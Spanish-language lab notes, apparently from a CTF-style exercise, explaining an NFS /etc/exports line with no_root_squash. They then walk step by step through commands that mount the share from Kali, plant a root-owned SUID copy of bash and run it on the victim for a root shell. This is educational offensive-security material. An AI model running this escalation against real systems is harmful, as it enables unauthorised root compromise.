 El archivo de configuración del **servidor NFS** se encuentra en `/etc/exports`. Ahí se especifica **qué carpetas se van a compartir**, con qué permisos y **qué máquinas o IPs pueden acceder**.

En el caso de nuestra máquina, vemos la línea
```bash
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
🔹 **Donde**:
- `/tmp` es la carpeta compartida
- `*` significa que cualquier usuario puede montarla
- `rw` son permisos de lectura y escritura
- `sync` (sincronización) significa que los cambios se escriben inmediatamente
- `insecure` significa que acepta conexiones desde puertos *no privilegiados*
- `no_root_squash` 🚨significa que el **root en la máquina cliente es también root sobre el NFS**
- `no_subtree_check` es una flag para desactivar la *verificación del subtree* (mejora el rendimiento)

**¿Cómo nos aprovechamos del no_root_squash?**
**1. En la Kali:** Revisamos las carpetas montables

```bash
showmount -e 10.0.2.22
```

**2. En la Kali:** Creamos una carpeta en la Kali para montar el recurso

```bash
sudo mkdir -p /mnt/nfs_tmp
```

**3. En la Kali:** Montar el NFS 

```bash
sudo mount -o rw,vers=3 10.0.2.22:/tmp /mnt/nfs_tmp
```

**4. En la víctima:** Crear la shell

```bash
cp /bin/bash /tmp/nfsbash
```

**5. En la Kali:** Cambiar **el propietario** del archivo (originalmente era `user`, pero queremos que sea `root`), así como el **grupo** para que también sea root, y le damos el permiso [[2025-07-28-permisos-suid-y-sgid\|SUID]]

```bash
cd /mnt/nfs_tmp/
sudo chown root nfsbash
sudo chgrp root nfsbash
sudo chmod +s nfsbash
```

**6. En la víctima:** Aparecerá `nfsbash` **marcada en rojo por el permiso [[2025-07-28-permisos-suid-y-sgid\|SUID]]**. La ejecutamos con el comando

```bash
./nfsbash -p
```
